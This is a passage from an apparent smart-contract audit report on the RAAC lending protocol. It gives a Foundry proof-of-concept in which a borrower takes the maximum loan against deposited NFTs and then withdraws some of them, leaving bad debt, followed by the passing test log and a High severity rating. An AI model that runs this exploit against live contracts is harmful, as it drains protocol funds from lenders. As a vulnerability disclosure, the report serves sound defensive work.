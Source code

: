 ```Solidity
        vm.stopPrank();
        /// Bob Purchases 6 nfts and deposits them
        for(uint256 i = 1; i <= 6; i++) {
            vm.startPrank(oracle);
            raacHousePrices.setHousePrice(i, 5e18);
            vm.stopPrank();
            vm.startPrank(user1);
            crvusd.approve(address(raacNFT), type(uint256).max);
            raacNFT.mint(i, 5e18);
            raacNFT.approve(address(lendingPool), i);
            lendingPool.depositNFT(i);
            vm.stopPrank();
        }
        /// Now Bob borrows the maximum amount he can borrow against them and simply withdraws 2 of those NFTs, leaving his position undercolleteralized
        vm.startPrank(user1);
        lendingPool.borrow(24e18);
        lendingPool.withdrawNFT(1);
        lendingPool.withdrawNFT(6);
        /// Logs, Asserts and initiateLiquidation for good measure
        uint256 healthFactor = lendingPool.calculateHealthFactor(user1);
        assert(healthFactor < 1e18);
        console.log("Users Helth Factor:", healthFactor);
        lendingPool.initiateLiquidation(user1);
        vm.stopPrank();
    }
```

Running above PoC produces the following log:

```Solidity
Ran 1 test for test/invariant/PoC.t.sol:PoC
[PASS] test_withdrawNftCanLeaveProtocolWithBadDebt() (gas: 2016930)
Logs:
  Users Helth Factor: 666666666666666666

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 23.37ms (10.00ms CPU time)

Ran 1 test suite in 28.81ms (23.37ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

Clearly highlighting the attack path is executable and leaving the Protocol on financial loss.



## Impact

As described above, this vulnerability is a free money exploit for users, being able to withdraw a vast amount of their collateral against the assumption, that a user always has to be overcollateralized, is directly affecting the solvency of the protocol, since the liquidation of Bob in above scenario is not profitable anymore. Therefor I rate it High, it is easy to to and the impact definitely high
